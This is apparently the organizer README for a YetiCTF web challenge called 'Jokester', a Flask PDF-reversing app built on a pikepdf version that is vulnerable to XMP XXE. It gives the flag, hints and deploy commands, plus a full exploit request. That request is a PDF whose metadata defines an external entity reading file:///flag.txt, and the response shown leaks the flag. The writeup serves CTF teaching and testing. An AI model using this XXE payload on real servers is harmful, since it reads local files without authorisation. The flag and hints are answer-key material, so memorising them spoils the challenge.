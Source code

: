 # Info for YetiCTF developers

## Category

```
Web
```

## Name

```
Jokester
```

## Description

```
Мой друг долго не мог понять, что не так с pdf'кой с того сайта. АХАХАХ 
/flag.txt
<ссылка>
```

## Flag

```
YetiCTF{1eV3l_ulTRa_H4ck3r}
```

## Hints

```
1. Где храниться метаданные в pdf файлах?
2. Что за сущность такая?
3. xmp -> xxe (Это на случай если никто не решит и до конца останеться 30 минут)
```

# Other useful info

## TODO/issues

Crontab don't working in docker container. This can lead to out of storange, beacause all uploaded pdfs save in /tmp/pdfcache.

## Deploy

```
docker build -t flask/flask_docker .
docker run -d -p 4040:4040 flask/flask_docker.
```

## Application
Web flask based python application for reverse pdf files (first page = last page and last page = first page).

## Vulnerabulity
Application use pikepdf 2.9.2 lib. This lib vulnerable to xmp xxe in pdf file, while reading pdf metadata. When you loading pdf file, you can check: pdf version, page quantity, metadata(vuln). See more in exploit chapter.

## Exploit

### Request

```
POST / HTTP/1.1
Host: 192.168.50.232:4040
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2035132012485856836846648411
Content-Length: 38238
Origin: http://192.168.50.232:4040
Connection: close
Referer: http://192.168.50.232:4040/
Upgrade-Insecure-Requests: 1

-----------------------------2035132012485856836846648411
Content-Disposition: form-data; name="file"; filename="malicose_new.pdf"
Content-Type: application/pdf

%PDF-1.4
%¿÷¢þ
1 0 obj
<< /Metadata 3 0 R /Pages 4 0 R /Type /Catalog >>
endobj
2 0 obj
<< /CreationDate (D:20211011185659+05'00') /ModDate (D:20211011185659+05'00') /Producer (iText® 5.5.11 ©2000-2017 iText Group NV \(AGPL-version\)) /Title <feff04170430044f0432043b0435043d04380435> >>
endobj
3 0 obj
<< /Subtype /XML /Type /Metadata /Length 326 >>
stream
<?xpacket begin='\xef\xbb\xbf' id='W5M0MpCehiHzreSzNTczkc9d'?>
<!DOCTYPE rdf:RDF [<!ENTITY xxe SYSTEM "file:///flag.txt">]>
<x:xmpmeta xmlns:x='adobe:ns:meta/' x:xmptk='Image'>
<rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#">
<note>
<to>&xxe;</to>
<from>xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx</from>
</note>
</rdf:RDF>
</x:xmpmeta>
<?xpacket end='w'?>

endstream
endobj
4 0 obj
<< /Count 1 /Kids [ 5 0 R ] /Type /Pages >>
endobj
5 0 obj
<< /Contents 6 0 R /MediaBox [ 0 0 612 792 ] /Parent 4 0 R /Resources << /Font << /F1 7 0 R /F2 8 0 R >> >> /Type /Page >>
endobj


[...SOME PDF DATA...]


0000004537 00000 n 
0000018684 00000 n 
trailer << /Info 2 0 R /Root 1 0 R /Size 17 /ID [<fbb909c8e1ac9e809ed63bb50b18fa2a><aa5ddc7af815478197a1ba39b3a0768d>] >>
startxref
37455
%%EOF

-----------------------------2035132012485856836846648411--

```

### Response

```
HTTP/1.1 200 OK
Server: gunicorn
Date: Thu, 21 Oct 2021 14:41:16 GMT
Connection: close
Content-Type: text/html; charset=utf-8
Content-Length: 3091

<!doctype html>
<title>PDF Reverser - PDF Reverser</title>
<link rel="stylesheet" href="/static/css/bootstrap.css">


[...SOME HTML...]


    </div>
    <div id="collapseThree" class="collapse" aria-labelledby="headingThree" data-parent="#accordionExample">
      <div class="card-body">
        &lt;x:xmpmeta xmlns:x=&#34;adobe:ns:meta/&#34; x:xmptk=&#34;Image&#34;&gt;
&lt;rdf:RDF xmlns:rdf=&#34;http://www.w3.org/1999/02/22-rdf-syntax-ns#&#34;&gt;
&lt;note&gt;
&lt;to&gt;YetiCTF{1eV3l_ulTRa_H4ck3r}
&lt;/to&gt;
&lt;from&gt;xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&lt;/from&gt;
&lt;/note&gt;
&lt;/rdf:RDF&gt;
&lt;/x:xmpmeta&gt;
      </div>
    </div>
  </div>
</div>
<div class="container text-center">  
</div>
</section>

<script type="text/javascript" src="/static/js/jquery-3.6.0.min.js"></script>
<script type="text/javascript" src="/static/js/bootstrap.js"></script>
```
